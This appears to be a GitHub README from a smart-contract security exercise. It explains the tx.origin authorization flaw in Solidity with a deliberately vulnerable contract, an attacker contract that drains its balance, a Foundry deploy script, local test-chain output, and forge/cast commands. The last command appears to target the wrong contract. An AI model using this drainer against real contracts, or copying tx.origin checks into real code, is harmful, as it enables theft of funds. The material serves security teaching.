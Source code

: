 # Web3eg-Smart-Contract-Auditor-Phishing-Attack
- The contract you've provided has a security vulnerability related to the use of tx.origin for authorization.
 This vulnerability can be exploited by an attacker to trick the owner into executing a malicious transaction. 
Below is an explanation of the vulnerability and how it can be exploited.

```solidity  
  
 //SPDX-Liecence-Identifier: MIT
 pragma solidity ^0.8.26;

contract Phishing {
    address public owner;
    constructor() payable {
        owner = msg.sender;
    }

    function transfer (address payable _to , uint _amount) public {
        require (tx.origin == owner , " you are not the owner");
        (bool sent , ) = _to.call{value: _amount}("");
        require(sent ,"fail");
    }
    }
    
```


- Exploitation Scenario
1- Deploy the Phishing Contract: The attacker deploys the Phishing contract and funds it with some Ether.

2- Create a Malicious Contract: The attacker creates a malicious contract that calls the transfer function of the Phishing contract.

3- Trick the Owner: The attacker tricks the owner into interacting with the malicious contract. This could be done through social engineering, such as sending a phishing email or link that appears to be legitimate.

4- Execute the Attack: When the owner interacts with the malicious contract, it calls the transfer function of the Phishing contract. Since tx.origin is the owner's address, the require statement passes, and the funds are transferred to the attacker's address.


```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;
    interface IPhishing{
        function transfer(address payable _to, uint _amount) external;
    }

    contract PhishingAttack {
        address public attacker;
        IPhishing public phishing;
        constructor (address _phishing) payable{
            attacker = payable(msg.sender);
            phishing = IPhishing((_phishing));
        }

        function attack() public{

        phishing.transfer(payable(attacker), address(phishing).balance);
        }
        receive() external payable {}

    }

```

- Deploy the Phishing Contract: Deploy the Phishing contract and fund it with Ether. and PhishingAttack contract
  
```solidity
//SPDX-Liecence-Identifier: MIT
pragma solidity ^0.8.26;
import "forge-std/Script.sol";
import "src/Phishing.sol";
import "src/PhishingAttack.sol";

contract DeployPhishing is Script{

    function run() external {

        uint256 privateKey1 =vm.envUint ("PRIVATE_KEY1");
        uint256 privateKey2 = vm.envUint("PRIVATE_KEY2");

        vm.startBroadcast(privateKey1);
        Phishing phishing = new Phishing{value : 10 ether}();
        vm.stopBroadcast();

        vm.startBroadcast(privateKey2);
        PhishingAttack phishingAttack = new PhishingAttack(address(phishing));
        vm.stopBroadcast();
    }

}
```

OUTPUT
```
Script ran successfully.

## Setting up 1 EVM.

==========================

Chain 31337

Estimated gas price: 2.000000001 gwei

Estimated total gas used for script: 449553

Estimated amount required: 0.000899106000449553 ETH

==========================

##### anvil-hardhat
✅  [Success] Hash: 0xabd7c801f907b4775ebbbbdf3330042efe9153c2ab6cb79f2f05b322afcaf928
Contract Address: 0x5FbDB2315678afecb367f032d93F642f64180aa3
Block: 1
Paid: 0.000174585000174585 ETH (174585 gas * 1.000000001 gwei)


##### anvil-hardhat
✅  [Success] Hash: 0x8a773e65109e878f280032ae1275ca1b584f590e68d92f0afa2e73676cb305df
Contract Address: 0x8464135c8F25Da09e49BC8782676a84730C318bC
Block: 2
Paid: 0.000150071862597976 ETH (171226 gas * 0.876454876 gwei)

✅ Sequence #1 on anvil-hardhat | Total Paid: 0.000324656862772561 ETH (345811 gas * avg 0.938227438 gwei)
                                                                                                                                                                              

==========================

ONCHAIN EXECUTION COMPLETE & SUCCESSFUL.

Transactions saved to: /home/mourad/web3eg security/arithmatic/broadcast/DeployPhishing.s.sol/31337/run-latest.json

Sensitive values saved to: /home/mourad/web3eg security/arithmatic/cache/DeployPhishing.s.sol/31337/run-latest.json
```

- command to deploy ``` forge script script/DeployPhishing.s.sol:DeployPhishing --rpc-url http://127.0.0.1:8545 --broadcast```
-  Trick the Owner: The attacker tricks the owner into interacting with the malicious contract.
 This could be done through social engineering, such as sending a phishing email or link that appears to be legitimate.

- Execute the Attack: When the owner interacts with the malicious contract, it calls the transfer function of the Phishing contract. 
Since tx.origin is the owner's address, the require statement passes, and the funds are transferred to the attacker's address.

  
```
cast send < Phishing contract address> "attack()" --rpc-url http://127.0.0.1:8545 --private-key <private key PhishingAttack> 
```
